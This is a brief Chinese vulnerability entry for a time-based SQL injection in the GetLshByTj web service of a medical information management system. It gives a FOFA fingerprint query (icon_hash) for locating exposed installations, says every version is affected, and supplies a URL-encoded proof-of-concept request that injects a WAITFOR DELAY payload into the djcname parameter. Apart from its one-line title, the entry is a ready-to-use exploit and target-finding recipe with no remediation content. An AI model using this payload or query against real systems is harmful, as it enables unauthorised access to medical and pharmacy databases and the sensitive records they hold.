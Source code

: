 

**漏洞描述**

医药信息管理系统 GetLshByTj SQL注入漏洞

**fofa搜索语句**

icon_hash="775044030"

**影响版本**

全版本

**漏洞复现**

POC：

```url
/WebService.asmx/GetLshByTj?djcname=%31%27%3b%77%61%69%74%66%6f%72%20%64%65%6c%61%79%20%27%30%3a%30%3a%33%27%2d%2d%20%2d&redonly=true&tjstr=12
```

